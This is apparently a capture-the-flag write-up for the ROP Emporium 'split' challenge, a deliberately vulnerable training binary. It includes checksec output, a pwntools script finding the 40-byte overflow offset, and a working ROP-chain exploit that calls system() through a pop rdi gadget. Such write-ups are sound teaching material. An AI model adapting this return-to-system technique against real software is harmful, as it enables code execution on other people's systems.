

[Rop Emporium Split ](https://ropemporium.com/challenge/split.html)
hint
I'll let you in on a secret: that useful string `"/bin/cat flag.txt"` is still present in this binary, as is a call to `system()`. It's just a case of finding them and chaining them together to make the magic happen.

---

## A little about the binary

```sh
ile split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped

```

- 64 bit
- LSB
- Dynamically linked
- Not stripped

Protections

```sh
checksec --file=split
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols	  No	0		3		split

```

---

## Reversing





3 functions
- main
- pwnme
- usefulFunction

Vulnerability is in the `pwnme` function.
Buffer overflow.

### Exploitation path
- find offset to instruction pointer 
- find system function address that is called in the usefulFunction
- find usefulString address
- find rop gadget `pop rdi, ret`
- chain it together

```
payload = "A"*offset + pop_rdi + usefulString + system 
```


---

## Find Offset
```python
#!/bin/python3
from pwn import *

elf = context.binary = ELF("./split")
context.log_level = 'debug'

pattern = cyclic(200)

p = process()
p.recvuntil('> ')
p.sendline(pattern)

p.wait()

core = p.corefile
rbp = core.rbp
log.success(f"RBP at crash: {hex(rbp)}")
log.success(f"Offset to RIP: {cyclic_find(rbp) + 8}")

```


Output 
```python
 p.recvuntil('> ')
[DEBUG] Received 0x4c bytes:
    b'split by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Contriving a reason to ask user for data...\n'
    b'> '
[DEBUG] Sent 0xc9 bytes:
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
[*] Process '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/split' stopped with exit code -11 (SIGSEGV) (pid 38005)
[DEBUG] core_pattern: b'core'
[DEBUG] core_uses_pid: False
[DEBUG] interpreter: ''
[DEBUG] Looking for QEMU corefile
[DEBUG] Trying corefile_path: '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/qemu_split_*_38005.core'
[DEBUG] Looking for native corefile
[DEBUG] Checking for corefile (pattern)
[DEBUG] Trying corefile_path: '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/core'
[+] Parsing corefile...: Done
[*] '/tmp/tmpl875kut7'
    Arch:      amd64-64-little
    RIP:       0x400741
    RSP:       0x7fffffffdef8
    Exe:       '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/split' (0x400000)
    Fault:     0x6161616c6161616b
[+] Parsing corefile...: Done
[*] '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/core.38005'
    Arch:      amd64-64-little
    RIP:       0x400741
    RSP:       0x7fffffffdef8
    Exe:       '/home/hacker/REPO/binexp/STACK/rop_emporium_all_challenges/Split/x64/split' (0x400000)
    Fault:     0x6161616c6161616b
[+] RBP at crash: 0x6161616a61616169
[!] cyclic_find() expected an integer argument <= 0xffffffff, you gave 0x6161616a61616169
    Unless you specified cyclic(..., n=8), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=8) to override this.
[+] Offset to RIP: 40

```


Offset = 40

## Final script

```python
#!/bin/python3
from pwn import *

elf = context.binary = ELF("./split")
context.log_level = 'debug'
rop  = ROP(elf)

usefulString = elf.symbols['usefulString']
psystem = elf.symbols['usefulFunction' ] + 9 # system function that is called within usefulFunction
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

offset = 40

payload = flat(
    b"A"*offset,
    pop_rdi,
    usefulString,
    psystem
)

p = process()
p.recvuntil('> ')
p.sendline(payload)
p.interactive()

```


